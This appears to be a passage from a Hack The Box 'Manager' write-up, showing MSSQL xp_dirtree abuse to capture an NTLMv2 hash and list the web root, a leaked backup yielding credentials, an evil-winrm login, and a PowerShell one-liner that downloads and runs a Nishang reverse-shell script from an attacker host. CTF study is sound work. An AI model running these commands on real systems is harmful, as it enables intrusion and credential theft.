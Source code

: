 It seems `xp_cmdshell` is not enabled and we don't have permissions to activate, therefore this way is closed. We can try to cmpture the NTLMv2 hash with `responder` or `smbserver.py` + `xp_dirtree`
The captured hash is.
```markdown
[*] DC01$::MANAGER:aaaaaaaaaaaaaaaa:d063ef67f8a1adf0d8368e4438f744db:0101000000000000809a7d8dbd04da01a9e4c3054b7505c100000000010010004200470051006400540074006800640003001000420047005100640054007400680064000200100050005a005800780059005600670041000400100050005a0058007800590056006700410007000800809a7d8dbd04da0106000400020000000800300030000000000000000000000000300000489aaa814b1c641c0613cb01649cab0b0c5aadd6d67823781f76634d0d773dec0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360039000000000000000000
```
It is not crackable with hashcat though.
Since we can at least explore the file system with `xp_dirtree`, let's list the contents of `webroot` folder.
```markdown
> SQL> exec xp_dirtree 'c:\inetpub',1,1
subdirectory                                                                depth          file   
-----------------------------------------------  ---------------------   -----------   -----------

custerr                                                                       1             0   
history                                                                       1             0   
logs                                                                          1             0   
temp                                                                          1             0   
wwwroot                                                                       1             0   

> SQL> exec xp_dirtree 'c:\inetpub\wwwroot',1,1
subdirectory                                                                 depth          file   
----------------------------------------------------------------------   -----------   -----------   

about.html                                                                    1             1   
contact.html                                                                  1             1   
css                                                                           1             0   
images                                                                        1             0   
index.html                                                                    1             1   
js                                                                            1             0   
service.html                                                                  1             1   
web.config                                                                    1             1   
website-backup-27-07-23-old.zip                                               1             1   
```
Ìt seems someone made a backup of the site on july and forgot a copy of the file in the `webroot` folder. This can be downloaded using a browser or `wget`
```markdown
> wget http://manager.htb/website-backup-27-07-23-old.zip -O backup.zip
```
Opening the `.zip` file, we find an `.xml` with credentials.

![manager4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/fa59df58-80fd-45a8-b36d-4c1ab9174d5d)

We use them to log in with `evil-winrm`
```markdown
> evil-winrm -u raven -p 'R4v3nBe5tD3veloP3r!123'  -i 10.129.142.151
```
This shell allows us to collect `user.txt`
### PHASE 3. System
First step is to upgrade the shell to a nishang interactive shell.
```markdown
> powershell "iex(new-object net.webclient).downloadstring('http://10.10.14.69/Invoke-PowerShellTcp.ps1')"
```
Next, enumerate the system from the powershell.
```powershell
> get-computerinfo
WindowsBuildLabEx                                       : 17763.1.amd64fre.rs5_release.180914-1434
WindowsCurrentVersion                                   : 6.3
```